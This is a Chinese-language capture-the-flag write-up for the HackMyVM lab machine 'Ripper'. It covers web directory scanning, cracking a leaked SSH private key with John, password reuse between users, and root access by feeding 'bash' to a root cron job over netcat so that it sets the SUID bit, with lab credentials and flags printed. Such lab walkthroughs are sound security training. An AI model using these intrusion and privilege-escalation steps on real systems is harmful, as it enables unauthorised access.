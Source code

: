 # Ripper

2024-11-16 https://hackmyvm.eu/machines/machine.php?vm=Ripper

## IP

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

首页无内容，对 web 进行目录扫描，http://192.168.5.40/staff_statements.txt 中得到了提示：

```
The site is not yet repaired. Technicians are working on it by connecting with old ssh connection files.
```

提示有旧的 ssh 文件，增加扫描文件的后缀，找到 ssh 文件：

```
gobuster dir -q -t 64 -e -k -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x php,txt,bak -u http://192.168.5.40/
```

发现 http://192.168.5.40/id_rsa.bak 得到私钥，根据前面发现的提示，用户名可能是 staff 尝试使用私钥登陆。私钥有密码，使用 John 进行破解，得到私钥的密码: bananas , 但是用户名不对，经过继续枚举，发现用户名是 jack 登陆成功。

通过 linepeas 枚举，发现 jack:Il0V3lipt0n1c3t3a 在 home 中发现了另外一个用户 helder 尝试用密码 Il0V3lipt0n1c3t3a 切换到该用户，切换成功。

得到了 user flag：

```
helder@ripper:~$cat user.txt
5c38d7d08c687355cb0ae3b6025cbe99
```

寻找提权至 root 的路径，sudo 和 suid 没有发现内容，看看有没有 cron 任务，pspy 发现每分钟执行一次：

```
/bin/sh -c nc -vv -q 1 localhost 10000 > /root/.local/out && if [ "$(cat /root/.local/helder.txt)" = "$(cat /home/helder/passwd.txt)" ] ; then chmod +s "/usr/bin/$(cat /root/.local/out)" ; fi
```

创建 passwd.txt 文件：

```
echo Il0V3lipt0n1c3t3a > /home/helder/passwd.txt
```

然后在目标机器上创建 10000 端口的监听，触发后面的操作，将 bash 修改为 suid 程序:

```
helder@ripper:~$echo 'bash' > tmp
helder@ripper:~$nc -lvnp 10000 < tmp
```

触发成功：

```
helder@ripper:~$/usr/bin/bash -p
helder@ripper:/root$cat root.txt
e28f578a17a5f99c0381c4b689d96f9f
```
